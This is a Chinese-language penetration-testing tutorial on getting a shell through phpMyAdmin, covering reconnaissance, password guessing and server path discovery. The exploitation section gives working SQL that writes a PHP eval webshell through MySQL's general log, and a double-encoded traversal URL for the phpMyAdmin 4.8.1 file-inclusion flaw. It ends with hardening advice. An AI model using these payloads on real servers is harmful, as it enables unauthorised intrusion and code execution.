# 课程 P1：phpMyAdmin Getshell 独家技巧详解 🛡️➡️🐚

在本节课中，我们将学习如何利用 phpMyAdmin 进行 Getshell 操作。课程将涵盖从认识目标、信息收集、漏洞挖掘与利用，到最终防范措施的完整流程。我们将以 phpMyAdmin 4.8.1 版本为例进行实战演示，旨在帮助初学者理解渗透测试的核心思路。

## 认识 phpMyAdmin 🗄️


phpMyAdmin 是一个基于 PHP 的 Web 端 MySQL 数据库管理工具。它允许管理员通过网页接口来管理 MySQL 数据库。在渗透测试中，攻击者常利用它来执行 Getshell 操作。


## Getshell 核心思路 🧠






上一节我们介绍了 phpMyAdmin 的基本概念，本节中我们来看看进行 Getshell 的核心思路。一个清晰的思路是成功渗透的关键。


以下是进行渗透测试的三个主要步骤：
1.  **明确目标**：确定渗透测试的具体目标，避免盲目操作。
2.  **信息收集**：收集与目标相关的关键信息，为后续攻击做准备。
3.  **漏洞挖掘与利用**：根据收集到的信息，寻找并利用安全漏洞。



## 信息收集实战 🔍


信息收集是 phpMyAdmin Getshell 的重中之重。成功的信息收集意味着成功了一半。


### 明确路径



首先，我们需要找到 phpMyAdmin 的访问路径。可以使用扫描工具（如 WVS、DirBuster）或搜索引擎语法进行探测。默认路径通常是 `/phpmyadmin`，但管理员可能会将其修改。



### 明确版本

确定 phpMyAdmin 的版本至关重要，因为某些漏洞只存在于特定版本。我们可以通过访问其内置的说明文档文件（如 `README`、`ChangeLog`）来获取版本信息。

### 明确口令




获取登录凭证是下一步。可以尝试弱口令（如 root/root），或使用爆破工具。但请注意，某些工具对 phpMyAdmin 版本有要求。

### 明确系统环境

登录后，我们需要明确服务器环境信息，这决定了后续利用方式的选择。

以下是需要收集的关键环境信息：
*   **操作系统**：Windows 还是 Linux，权限控制差异很大。
*   **PHP 版本**：不同 PHP 版本的安全特性不同。
*   **MySQL 版本**：某些漏洞与数据库版本相关。


### 获取网站真实路径



获取网站的真实物理路径对于写入 Webshell 是必须的。



以下是几种获取真实路径的方法：
*   **利用 phpinfo() 函数**：如果服务器上存在 `phpinfo.php` 等文件，可以直接访问获取路径。
*   **读取配置文件**：在旧版本中，可能通过 `LOAD_FILE` 函数读取配置文件获取路径，但新版本通常已限制。
*   **触发报错**：通过构造错误的 SQL 语句或请求，有时会在错误信息中暴露真实路径。
*   **利用搜索引擎**：使用特定语法（如 `inurl:phpmyadmin`）或查看网站历史快照（Wayback Machine）可能发现路径信息。



## 漏洞挖掘与利用 ⚔️


在完成充分的信息收集后，我们就可以进入漏洞挖掘与利用阶段。phpMyAdmin 的利用方式主要分为两类。

### 常规思路：日志写入 Getshell


当常规的 `SELECT ... INTO OUTFILE` 写文件方式被禁止（`secure_file_priv` 设置为 NULL）时，可以尝试利用 MySQL 的日志功能来写入 Webshell。


利用条件及步骤如下：
1.  查询并开启通用日志功能：
    ```sql
    SHOW VARIABLES LIKE ‘general%’; -- 查看状态
    SET GLOBAL general_log = ‘on’; -- 开启日志
    SET GLOBAL general_log_file = ‘网站真实路径/shell.php’; -- 设置日志文件路径为Webshell路径
    ```
2.  执行一条会将日志写入指定文件的查询，该查询内容即为 Webshell 代码：
    ```sql
    SELECT ‘<?php @eval($_POST[“yumu”]);?>’;
    ```
3.  访问 `http://目标网站/shell.php`，使用中国菜刀等工具连接，密码为 `yumu`。




### 特殊版本利用：phpMyAdmin 4.8.1 文件包含漏洞




对于特定版本，存在独特的漏洞。我们以 phpMyAdmin 4.8.1 的文件包含漏洞为例。

以下是利用步骤：
1.  **确认版本**：通过信息收集确认版本为 4.8.1。
2.  **创建数据库和数据表**：在 phpMyAdmin 中创建一个数据库（例如 `yumu`），并在其中创建一个数据表（例如 `yumu`），在表中插入一句话木马作为数据。
3.  **获取数据存储路径**：执行查询获取数据目录路径：
    ```sql
    SHOW VARIABLES LIKE ‘datadir’;
    ```
4.  **构造利用载荷**：该漏洞存在于 `index.php` 的 `lang` 参数处理中，存在二次 URL 解码导致的文件包含。构造如下形式的 Payload 进行访问：
    ```
    http://目标/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../数据库路径/数据表名.frm
    ```
    （需对 `?` 进行两次 URL 编码 `%253f` 以绕过检查）
5.  **执行代码**：访问包含恶意 `.frm` 文件（其中存储了我们插入的一句话木马）的 URL，即可执行代码，实现 Getshell。


## 漏洞防范措施 🛡️

在学习了攻击方法后，我们必须了解如何防御。攻防结合才能提升整体安全水平。




以下是针对 phpMyAdmin 的安全加固建议：
*   **删除敏感文件**：移除 `README`、`ChangeLog` 等可能泄露版本信息的文档。
*   **修改默认路径**：不要使用 `/phpmyadmin` 等默认路径。
*   **使用强密码**：为 root 账户设置高强度密码（长度大于15位，包含大小写字母、数字和特殊字符）。
*   **创建专用账户**：避免直接使用 root 账户进行日常管理，创建权限受限的专用账户。
*   **严格控制目录权限**：确保网站目录、数据目录等只有必要的最小读写权限。
*   **定期更新**：及时将 phpMyAdmin 更新到最新版本。
*   **按需安装**：如果不经常使用，考虑在完成数据库初始化后卸载 phpMyAdmin。
*   **配置安全参数**：在 `php.ini` 和 MySQL 配置中禁用危险函数，设置 `secure_file_priv` 等。

## 总结 📚

本节课中我们一起学习了 phpMyAdmin Getshell 的完整流程。我们从认识工具开始，逐步深入到信息收集、常规的日志写入 Getshell 思路以及针对 phpMyAdmin 4.8.1 特殊版本的文件包含漏洞利用。最后，我们探讨了如何从管理员角度进行安全防范。核心在于理解渗透测试的思路，并能够根据不同的环境信息灵活运用各种技术。请务必在合法授权的环境中进行测试，并将技术用于提升网络安全防护能力。